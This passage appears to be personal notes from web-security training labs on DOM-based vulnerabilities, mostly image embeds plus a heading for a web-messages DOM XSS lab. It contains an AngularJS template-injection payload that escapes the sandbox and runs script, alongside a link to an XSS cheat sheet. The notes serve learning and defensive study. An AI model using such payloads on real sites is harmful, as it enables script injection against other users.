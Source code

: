 ![Untitled](DOM-based%20vulnerabilities%20c27e0e8262ca4ddca6f7036be727c3c5/Untitled%2022.png)

![Untitled](DOM-based%20vulnerabilities%20c27e0e8262ca4ddca6f7036be727c3c5/Untitled%2023.png)

```jsx
{{constructor.constructor('alert(1)')()}}
```

Appendix: 

[https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected)

## LAB 10: **DOM XSS using web messages**

![Untitled](DOM-based%20vulnerabilities%20c27e0e8262ca4ddca6f7036be727c3c5/Untitled%2024.png)
